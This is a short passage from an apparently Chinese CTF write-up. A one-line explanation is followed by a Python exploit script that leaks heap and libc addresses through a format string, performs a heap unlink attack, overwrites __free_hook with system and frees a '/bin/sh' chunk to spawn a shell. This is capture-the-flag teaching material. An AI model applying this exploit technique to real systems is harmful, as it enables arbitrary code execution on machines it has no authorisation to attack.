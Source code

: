 接下来就常规 unlink，覆盖 `free_hook` 为 `system`，注意维持原 `note` 数组结构。

```python
sla('name:','%11$p.%15$p')
ru(',')
heap = int(ru('.'),16)-0x1186
base = int(ru('\n'),16)-0x20830
leak('heap',heap)
leak('base',base)

note = heap+0x202060
system = base+libc.sym['system']
free_hook = base+libc.sym['__free_hook']

add(0,0x98)
add(1,0x98)
add(2,0x90)
add(3,0x90,'/bin/sh\x00')

fd = note-0x18
bk = note-0x10
fake = flat(0,0x91,fd,bk).ljust(0x90,'\x00') + p64(0x90)+'\xa0'
edit(0,fake)
free(1)

edit(0,flat(0,0,0,free_hook,0x98))
edit(0,p64(system))
free(3)
```
